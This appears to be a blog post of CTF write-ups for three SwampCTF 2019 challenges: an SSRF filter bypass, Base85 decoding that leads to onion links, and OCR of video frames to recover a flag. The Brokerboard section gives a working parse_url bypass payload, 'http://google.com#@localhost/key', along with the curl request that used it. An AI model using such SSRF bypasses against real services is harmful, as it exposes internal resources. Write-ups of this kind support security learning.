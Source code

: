 ```yaml
---
layout: post
title: SwampCTF 2019 - Write-Ups
---
```


## Brokerboard [50]

### Problem Description

It's the year 1997 and the Internet is just heating up! :fire:

In order to get ahead of the curve, SIT Industries® has introduced it's first Internet product: The Link Saver™. SIT Industries® has been very secretive about this product - even going so far to hire Kernel Sanders® to test the security!

However, The Kernel discovered that The Link Saver had a little bit of an SSRF problem that allowed any user to fetch the code for The Link Saver™ from https://localhost/key and host it themselves :grimacing:. Fortunately, with a lil' parse_url magic, SIT Industries® PHP wizards have patched this finding from Kernel Sanders® and are keeping the code behind this wonderful site secure!

... or have they? :wink:

chal1.swampctf.com:1244

-= Created by andrewjkerr =-

- - - -

### Solution

After connecting to the [website](http://chal1.swampctf.com:1244/) of the challenge, we obtain the following page:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img1.png)

There was an input field in the page allowing us to send a request to the URL we wanted.

After some tries I noticed that the only accepted URL was <www.google.com>. Taking this into account, we tried injecting <http://google.com#@localhost/key>.

```
$ curl http://google.com#@localhost/key --data="link=http://google.com#@localhost/key"

<html>
<head>
    <title>Link Fetcher</title>
</head>
<body>
    <h1>The Link Fetcher</h1>
    <p>Want to remember cool links? This link fetcher will fetch links and store them for you!</p>
    <form action="/" method="POST">
        <input type="text" name="link" />
        <input type="submit" />
    </form>

    <p>Link added!</p><p>Link: http://google.com#@localhost/key</p><p>Title: The flag!</p><p>Description: flag{y0u_cANn0t_TRU5t_php}</p><hr /></body>
```
Flag: **flag{y0u_cANn0t_TRU5t_php}**

## NIT [128]

### Problem Description

The network investigative technique had just triggered and we were starting receive telemetry when, suddenly, a pop-up asked him for administrative access. He freaked out and yanked his cable leaving us with a copious amount of line noise. We've been tracking this guy for a while and really need a win here.

See if you can get anything out of this mess:

A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY

-= Created by v0ldemort =-

- - - -

### Solution

We received a ciphered/encoded string, "A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY". After trying to decipher it using many Cipher algorithms, I found the solution. It was encoded using [Base85](https://en.wikipedia.org/wiki/Ascii85):

I used [CyberChef](https://gchq.github.io/CyberChef) to decode the string obtaining an onion link _depastedihrn3jtw.onion/show.php?md5=7d1ecb0f8f428b70e49de68ead337d7e_:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img2.png)

This link shows the following information in the comments:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img3.jpg)

The comment with "flag = fecabed47e50e3a2b615e86d0e0f1c59" suggested me to visit the following onion link _depastedihrn3jtw.onion/show.php?md5=fecabed47e50e3a2b615e86d0e0f1c59_, which finally shows the flag:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img4.jpg)

Flag: **flag{sp00ky_W3bz_L0L}**

## Ghidra Release [310]

### Problem Description

[Meanwhile at the NSA on a Friday afternoon]

Manager: Hey, we're going to be releasing our internal video training for Ghidra and we need you to watch it all to flag any content that needs to be redacted before release.

Manager: The release is next Monday. Hope you didn't have any weekend plans!

You: Uhhh, sure bu-

Manager: Great! Thanks. Make sure nothing gets out.

You: ... [looks at clock. It reads 3:45PM]

You: [Mutters to self] No way am I watching all of this: https://static.swampctf.com/ghidra_nsa_training.mp4

-= Created by DigitalCold =-

- - - -

### Solution

I downloaded the video from the provided [link](https://static.swampctf.com/ghidra_nsa_training.mp4).

After having it downloaded, I extracted 1 frame for each second of video using the [ffmpeg](https://ffmpeg.org/ffmpeg.html) tool.

```
$ ffmpeg -i ghidra_nsa_training.mp4 -vf "fps=1" out%0d.png
```

Once having all the frames extracted, I used [tesseract](https://es.wikipedia.org/wiki/Tesseract_OCR), an OCR engine to extract text from images to analyze all the frames previously extracted. The simple bash script I prepare for that:

```
for file in $(ls . | grep png); do
	echo "image:${file}";
	tesseract $file - | grep -i flag
done
```

I obtained the first part of the flag in the image out12175.png, as shown in the following image:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img5.jpg)

The next part of the flag was obtained in the image out26715.png:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img6.jpg)

All the parts of the flag were:

* FLAG(1/4): flag{l34
* FLAG(2/4): kfr33_n4
* FLAG(3/4): tion4l_s
* FLAG(4/4): 3cur1ty}

Flag: **flag{l34kfr33_n4tion4l_s3cur1ty}**
